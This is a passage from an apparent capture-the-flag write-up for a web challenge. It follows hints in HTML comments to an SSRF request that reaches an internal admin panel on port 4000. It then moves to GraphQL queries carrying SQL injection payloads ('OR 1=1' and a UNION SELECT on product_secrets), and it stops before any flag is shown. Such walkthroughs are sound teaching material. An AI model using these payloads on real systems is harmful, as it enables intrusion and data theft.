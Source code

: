 While inspecting the source code, we find two important notes:

From `/index.html`:
```html
<!-- Oops!! Check internal/admin for testing -->
```

From `/dashboard`:
```html
<!-- Note for admins only: Use the fetch utility for internal testing on port 4000 -->
```

**Key Insight:** These hints suggest that we need to access the internal admin panel via SSRF.

### Step 2: Exploiting SSRF to Gain Admin Access

To access the internal admin panel, we can exploit SSRF using the fetch utility:

```
https://shadow-two.espark.tn/fetch?url=http://localhost:4000/internal/admin
```

This allows us to escalate privileges and gain access as an admin.

### Step 3: Accessing GraphQL and Identifying Queries

Now that we have admin access, we navigate to the `/graphql` endpoint and explore the available queries:

| Query | Parameters |
|:------|:-----------|
| `getUser` | username: String |
| `getAllProducts` | None |
| `getProductById` | id: Int |

To test for SQL injection, we try the following query:

```graphql
{
  getUser(username: "admin' OR '1'='1") {
    id
    username
    role
  }
}
```

**Confirmation:** This confirms a SQL injection vulnerability in the `getUser` query.

### Step 4: Exploiting SQL Injection to Retrieve the Flag

Using SQL injection in the `getProductById` query, we attempt to extract sensitive data:

```graphql
{
  getProductById(id: "-1 UNION SELECT 3, secret_info, 'description', 0 FROM product_secrets WHERE product_id = 3") {
    id
    name
    description
    price
  }
}
```
